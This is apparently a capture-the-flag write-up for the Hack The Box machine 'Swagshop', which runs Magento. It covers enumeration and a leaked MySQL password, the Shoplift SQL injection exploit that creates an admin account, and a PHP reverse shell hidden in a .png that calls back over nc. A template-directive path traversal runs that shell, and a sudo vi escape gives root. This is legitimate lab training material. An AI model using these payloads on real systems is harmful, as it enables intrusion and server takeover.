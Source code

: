 ```yaml
---
layout: post
title: Swagshop - 10.10.10.140
difficulty: 6
author: Andrea Melis
author_twitter_name: wild_boar
author_twitter_url: https://twitter.com/wild_boar
---
```


# USER

## Reconnaissance

### NMAP

As usual we always start with **Nmap** scanning:

<pre>root@pentestbox:~# nmap -sC -sV -oA swag 10.10.10.140

# Nmap 7.70 scan initiated Thu May 16 14:35:32 2019 as: nmap -sC -sV -p- -oA swag 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 16 14:36:21 2019 -- 1 IP address (1 host up) scanned in 49.94 seconds

</pre>

It seems that apparently only port 80 looks intersting, let's look what shows.

Appartently looks like a Magento installation.

![](/images/swagshop/port_80.png)

Let's use dirb as usual to scan some interesting files.

### DirBuster

With dirbuster and big.txt wordlist we found some interesting file such as:

<pre>
File found: /index.php - 200
Dir found: /css/ - 200
File found: /app/etc/local.xml
</pre>

Looking at local.xml it seems that there are some mysql creds which we are gonna keep it if 
required

<pre>

root
fMVWh7bDHpgZkyfqQXreTjU9
</pre>


So let's try to see if there is something intersting on magento, which is a know CMS for e-commerce solutions.

I know magescan, which is a tool to perform enumeration on such CMS, but apperently not interesting results
it found:

![](/images/swagshop/magescan.png)

So next step is to try to see if there is some knon exploits on this versions, which btw magento showed be  1.9.0.0, 1.9.0.1 

### Exploits

After few research on searchsploit and exploit-db i've found one which seems intersting. 

It's a SQL Injection on a admin path **/admin/Cms_Wysiwyg/directive/index/**, and the PoC of the exploit create a new user with
admin privileges as pointed out by the exploit

<pre>
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

#////////////////////////
#/// Overview:
#////////////////////////
#
#Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
#This python script developed by joren but it was having some bug because of which it was not working properly.
#If magento version is vulnerable, this script will create admin account with username forme and password forme
</pre>

The exploit worked! we just needed to change the url base from "http://10.10.10.140" to "http://10.10.10.140/index.php" because
it seems that mode_rewrite url is working.

So that's it!

<pre>

python 37977.py
WORKED
Check http://10.10.10.140/index.php/admin with creds forme:forme
</pre>

We can now go the admin login page and login with creds forme:forme

![](/images/swagshop/login.png)

An this is the admin panel

![](/images/swagshop/panel.png)

## Reverse Shell

We can now upload a reverse shell using the connection instance manager of Magento.

i've used LavaMagentoBD project which does exactly this, so i don't need to create
a package from scratch.

***DAMN! the vuln has been patched so we have to find another way!***

Surfing the wev i've found this amazing article with another workaround about magento.

https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

So i follow the steps i suggest.

First of all with the admin creds i allow the simlink options

System –> Configuration **THEN** Advanced –> Developer **THEN** Template Settings –> Allow Symlinks 

![](/images/swagshop/allow.png)


![](/images/swagshop/dev.png)


Magento it should add a warning, no probl of course.

Then we use a random .png image and we inject this php shell, renmaing also the png with php double extension shell.php.png

<pre>

echo '<?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 1337 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png

</pre>


So now we have to create a new thumbnail category so:

Catalog –> Manage Categories **THEN** a new one, then you give it a new, you abilitate it and then you add as a thumbnail your image:


So now finally, we can run our reverse shell.

All we need to do it's to go to the newsletter template, create a new one with the payload, and then preview it!

Catalog –> Manage Categories

And then the payload

{{block type='core/template' template='../../../../../../media/catalog/category/shell.php.png'}}

Save it, and the preview it, and we have our reverse shell!


# ROOT

##Enumeration

Immediatly after we launched linenum we noticed somenthing strange in the sudoers file.

![](/images/swagshop/sudoers.png)


We are apparently able to exec as www-data /usr/bin/vi for every file in /var/www/html/

So, we can simply open with sudo a file in that folder, and exec bash from vi and .. that's it!

![](/images/swagshop/root.png)


We have a root shell!

#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 

